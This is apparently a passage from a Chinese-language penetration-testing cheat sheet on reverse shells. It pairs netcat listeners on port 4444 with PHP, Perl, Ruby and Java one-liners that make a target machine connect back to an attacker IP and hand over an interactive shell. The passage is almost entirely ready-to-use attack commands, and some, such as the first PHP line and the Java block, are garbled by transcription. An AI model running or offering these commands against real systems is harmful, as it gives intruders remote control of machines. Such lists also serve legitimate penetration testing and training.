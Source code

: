 本地作为服务器开启监听

```
nc -lvnp 4444
```

靶标机作为客户端反弹shell

```
php- 'exec("/bin/bash -i >& /dev/tcp/ip/4444")'
或
php -r '$sock=fsockopen("IP",4444);exec("/bin/bash -i 0>&3 1>&3 2>&3");'
```

### perl反弹

本地作为服务器开启监听

```
nc -lvvp 4444
```

 靶标机作为客户端反弹shell

```
perl -e 'use Socket;$i="IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### ruby反弹

本地作为服务器开启监听端口

```
nc -lvvp 4444
```

靶标作为客户端反弹shell

```
ruby -rsocket -e'f=TCPSocket.open("IP",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java反弹

本地作为服务器开启监听端口

```
nc -lvvp 4444
```

靶标作为客户端反弹shell

```
r = Runtime.getRuntime()
p = r.``exec``([``"/bin/bash"``,``"-c"``,``"exec 5<>/dev/tcp/IP/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"``] as String[])
p.waitFor()
```
